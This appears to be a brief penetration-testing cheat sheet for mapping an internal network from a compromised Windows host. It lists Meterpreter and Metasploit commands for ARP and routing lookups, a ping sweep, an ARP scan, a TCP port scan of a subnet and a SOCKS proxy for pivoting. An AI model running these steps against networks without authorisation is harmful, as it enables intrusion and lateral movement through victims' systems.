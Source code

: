 
# Mapping internal network

1-Get machine IP and DNS server

> ipconfig /all 

2-List ARP 

meterpreter> arp 

3-List routing Table

meterpreter> route print

4-Display DNS servers

> ipconfig /displaydns

5- Display active TCP connection ports on which the computer listing 

> netstat -ano

6- Ping Sweep

> use post/multi/gather/ping_sweep

> set SESSION 1

> set RHOSTS 10.x.x.0/24

> run

7- ARP scanner

meterpreter> run arp_scanner -r 10.x.x.0/24

8- Scanning Internal ports

> use auxiliary/scanner/portscan/tcp

> set RHOSTS 10.x.x.0/24

> set RPORTS 20-200

> run

9-Proxychain

> use auxiliary/server/socks4a

> run


















